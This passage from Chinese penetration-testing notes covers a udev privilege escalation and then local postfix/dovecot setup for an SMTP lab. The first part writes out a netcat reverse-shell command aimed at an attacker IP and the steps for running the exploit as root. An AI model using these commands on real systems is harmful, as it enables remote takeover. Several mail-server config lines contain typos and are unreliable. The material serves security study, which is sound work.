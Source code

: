 - 设置kali nc监听

  - 使用netcat 进行监听后期返回的shell。`nc -lvp 4444`

- 编译执行exp，获取root

  ```
  gcc 源文件名 -o exploit                                     #将源文件进行编译并输出到exploit文件中
  echo '#!/bin/sh' > /tmp/run                               #写入到/tmp/run文件中
  echo '/bin/netcat -e /bin/sh IP地址 4444' >> /tmp/run
  ps aux | grep udev                                        #显示一个root权限的进程
  ./exploit 数字pid-1                                        #执行exploit,具有root权限的pid-1
  ```



### SMTP漏洞利用

- 邮件发送与接受模型

  - 邮件发送使用smtp协议，**占用25端口。**而邮件接收使用pop3或imap协议，**分别占用110和143端口。**

- 添加主机名和域名

  - 为了在本地搭建好邮件服务器，所以需要修改对应内容。使得可以在本地进行域名解析。
  - `sudo gedit /etc/hosts`
  - 127.0.0.1 mail.test.lab test
  - `sudo gedit /etc/hostname`
  - test
  - 修改完成之后使用reboot进行重启，使得修改生效。
  - 使用hostname 或hostname -f查看修改是否成功。

- ubuntu 安装postfix

  - 因为postfix是非常流行的smtp软件，所以ubuntu的主要库中集成了postfix，可以直接使用以下命令安装：`sudo apt-get install postfix`

  - 修改配置文件：`sudo gedit /etc/postfix/main.cf`

  - 追加子网信息

    mynetworks = 127.0.0.0/8 192.168.1.0//24

    inet_protocols = ipv4

    home_maillbox = Maildir/

  - 修改完成之后重新启动服务postfix：`sudo service postfix restart`，然后使用netstat -nlv来查看对应25端口是否开启。

- ubuntu安装dovecot

  - `sudo apt-get install dovecot-imapd dovecot-pop3d`

  - `sudo gedit /etc/dovecot/conf.d/10-auth.conf`

    disable_plaintest auth = yes

    auth_mechanisms = plain login

  - `sudo gedit /etc/dovecot/conf.d/10-mail.conf`

    mail_location = maildir:/home/%u/Maildir
